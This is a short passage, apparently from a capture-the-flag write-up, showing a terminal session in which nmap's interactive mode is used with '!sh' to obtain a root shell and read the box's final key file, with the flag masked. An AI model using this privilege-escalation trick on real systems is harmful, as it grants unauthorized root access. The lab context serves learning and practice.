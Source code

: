 ```
nmap> !sh
!sh
# ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv tmp  var
boot  etc  initrd.img  lib64  media   opt  root  sbin  sys usr  vmlinuz
# cd /root
cd /root
# ls
ls
firstboot_done key-3-of-3.txtcat key-3-of-3.txt
$$$$$$$$$$$$$$$$$$$$$$$$$$$ # root flag 
```
**By_sourabh_**
